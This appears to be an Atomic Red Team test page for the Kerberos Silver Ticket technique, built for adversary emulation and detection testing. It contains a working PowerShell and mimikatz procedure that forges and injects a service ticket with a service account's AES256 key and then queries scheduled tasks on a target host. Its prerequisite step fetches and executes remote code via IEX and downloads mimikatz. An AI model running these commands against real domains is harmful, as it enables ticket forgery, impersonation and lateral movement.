 ```yaml
---
tags: [T1558_002, atomic_test]
filename: "[[T1558.002 - Steal or Forge Kerberos Tickets- Silver Ticket]]"
---
```

# T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket

## Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz
Once the hash of service account is retrieved it is possible to forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets.
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 385e59aa-113e-4711-84d9-f637aef01f2c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | string | %userdnsdomain%|
| account | Account to impersonate | string | silverticketfakeuser|
| target | System you want to target (Default will be logon server) | string | %logonserver:&#92;&#92;=%|
| service_aes256_key | AES256 key (you will need to set to match your service key for your target) | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to silver.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\silver.txt 2>&1 (
  echo Purge existing tickets and create silver ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{service_aes256_key} /user:#{account} /service:HOST /target:#{target}.#{domain} /ptt" "exit"

  echo.
  echo executing:schtasks /query /S #{target}.#{domain}
  schtasks /query /S #{target}.#{domain}
  
  echo.
  echo Tickets after requesting schtasks:
  klist

  echo.
  echo End of Silver Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\silver.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\silver.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\silver.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Silver Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\silver.txt

# cleanup temp files
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
